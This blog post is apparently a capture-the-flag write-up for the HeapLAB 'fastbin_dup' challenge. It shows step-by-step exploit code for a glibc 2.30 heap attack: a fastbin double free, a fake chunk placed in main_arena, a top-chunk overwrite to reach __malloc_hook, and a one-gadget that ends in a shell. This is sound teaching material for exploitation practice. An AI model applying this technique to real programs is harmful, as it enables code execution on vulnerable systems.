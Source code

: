 ```yaml
---
layout: post
title: "Challange Fastbin-Dup"
subtitle: "Attacking fastbin and avoid 0x70 protection"
date: 2016-05-26 06:00
author: "Ivan Medina"
header-img: "https://miro.medium.com/max/1400/0*KkTSjm-D9R-V2fmk.png"
cdn: 'header-on'
tags: [ pwn, heap, uaf, libc-2.30 ]
---
```

## Attacking fastbin and avoid 0x70 protection
*****************************************
### First Fastbin

1.- Write fake size
```
malloc(24,p64(0x61))
```
![imagen1.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen1.png)

2.- Write fake size in main arena
```
malloc(24,'C'*48)
malloc(24,'D'*48)
```
![imagen2.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen2.png)

### Second Fastbin for link fake chunk in fastbins list

3.-Fastbin
```
chunk_J=malloc(0X58,'C'*48)
chunk_K=malloc(0x58,'D'*48)
free(chunk_J)
free(chunk_K)
free(chunk_J)
```
![imagen3.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen3.png)

4.- So now we can write what we want to link
```
malloc(0x58, p64( libc.sym.main_arena + 0x20 ))
```

![imagen4.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen4.png)

5.- Move fake chunk to the fastbins and put it on the head of 0x60 fastbins
```
malloc(0x58,b'L'*8)
malloc(0x58,b'M'*8)
```
![imagen5.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen5.png)

6.- Write in main arena...

To write 0x61 in the main arena and match with 0x60 fastbin we allocate 0x48 bytes instead of 0x24 and we'll have the target in 0x60 fastbins and in main arena we will see the fake chunk crafted with size field and foreword pointer.

![imagen6.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen6.png)

Requests a chunk of 0x60 size to write in the main arena but before libc will check that the size field of fake chunk is in the range allowed for 0x60 fastbins, thats why we write the 0x61, if we request other 0x60 chunk will give us our fake chunk and we can write in main_arena.

```
malloc(0x58,b'N'*8)
```


![imagen7.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen7.png)


7.- Overwrite top chunk pointer with malloc_hook

The offset of top chunk is 48 bytes...

![imagen9.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen9.png)

```
malloc(0x58,b'Y'*48+p64(libc.sym.__malloc_hook -16))
```

![imagen10.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen10.png)

Okey, so if we request a chunk that is not in fastbins malloc will return us a chunk from top chunk.

![imagen11.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen11.png)

8.- Bypass top chunk mitigation

We are using glibc 2.30 for this challange and size version 2.29 top chunk mitigation was added

```
pwndbg> backtrace
pwndbg> f 4
pwndbg> context code
```

![imagen12.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen12.png)

```
pwndbg>p/x av->system_mem
$1 = 0x21000
```

We can go a little further back and take advantage of the alignment that is not checked...

![imagen13.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen13.png)

Great, this size is a size allowed, if request a chunk ...

```
malloc(0x28,b'Y'*19+p64(0xdeadbeef))
malloc(0x28,b'')
```

![imagen14.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen14.png)

9.- One gadget

```
malloc(0x28,b'Y'*19+p64(libc.address + 0xe1fa1))
malloc(0x28,b'')
```

![imagen15.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen15.png)

Is taking 'LLLLLLLLDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD' as parameter and the execution fails, but it is something we control, maybe if we pass other argument

![imagen16.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen16.png)

Let's change the line: 'malloc(0x58,b'L'*8)' to 'malloc(0x58,b'-s\0')'

![imagen17.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/challenge-fastbin_dup/assets/Imagen17.png)

and shell!
